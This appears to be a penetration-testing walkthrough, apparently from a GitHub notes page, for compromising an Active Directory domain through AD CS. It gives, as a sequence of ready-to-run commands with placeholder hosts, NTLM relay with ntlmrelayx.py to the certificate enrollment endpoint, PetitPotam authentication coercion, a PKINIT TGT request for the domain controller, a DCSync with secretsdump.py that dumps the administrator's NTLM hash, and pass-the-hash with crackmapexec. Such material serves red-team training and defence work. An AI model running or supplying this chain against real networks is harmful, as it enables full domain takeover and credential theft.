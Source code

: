 First, we need to start **ntlmrelayx.py**, specifying the **Web Enrollment URL** for the CA host, using KerberosAuthentication or DomainController AD CS template. We could use a tool like [certi](https://github.com/zer1t0/certi) to locate the cert.
```console
zero@pio$ sudo ntlmrelayx.py -debug -smb2support --target http://<DC COMPUTER NAME>.<DOMAIN>.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

While this is running, execute [PetitPotam.py](https://github.com/topotam/PetitPotam). There is an executable version for Windows host. ALso, mimikatz has this authentication trigger and can be use as `misc::efs /server:<DC> /connect:<ATTACK HOST>`. Also, here we have the [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1). Using the [EfsRpcOpenFileRaw](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8):
```console
zero@pio$ python3 PetitPotam.py <ATTACK HOST> <DC HOST>  
```

If we successfull execute it, we will see a login request, and obtain the base64 encoded certificate for the DC. With this certificate, we can use **gettgtgpkinit.py** to request a TGT for the DC:
```console
zero@pio$ python3 gettgtpkinit.py <DOMAIN>.LOCAL/<DC COMPUTER NAME>\$ -pfx-base64 <BASE64 CERT> dc01.ccache
```

The TGT request was saved in **dc01.ccache**. We can now use the **KRB5CCNAME** environment variable, so our attack host uses this file for Kerberos authentication attempt:
```console
zero@pio$ export KRB5CCNAME=dc01.ccache
```

We can use this TGT with **secretsdump.py** to perform a DCSync and retrieve the NTLM hashes:
```console
zero@pio$ secretsdump.py -just-dc-user <DOMAIN>/administrator -k -no-pass "<DC COMPUTER NAME>$"@<DC COMPUTER NAME>.<DOMAIN>.LOCAL
```

We could also use a more straightforward command: `secretsdump.py -just-dc-user <DOMAIN>/administrator -k -no-pass <DC COMPUTER NAME>.<DOMAIN>.LOCAL` because the tool will retrieve the username from the ccache file. We can use `klist` (installed from [krb5-user](https://packages.ubuntu.com/focal/krb5-user)) to check it.

We can now confirm the NTLM:
```console
zero@pio$ crackmapexec smb <DC IP> -u administrator -H <NTLM HASH>
```

We can also use the tool **getnthash.py** from PKINITtools to request the NT hash for our target host using Kerberos U2U to submit a TGS request with the **Privileged Attribute Certificate** (**PAC**), which contains the NT hash of the target. This can be decrypted with AS-REP encryption key.
```console
zero@pio$ python getnthash.py -key <NTLM HASH> <DOMAIN>.LOCAL/<DC COMPUTER NAME>$
```

We can use this hash to perform a DCSync:
```console
zero@pio$ secretsdump.py -just-dc-user <DOMAIN>/administrator "<COMPUTER NAME>$"@<DC IP> -hashes <HASH>
```
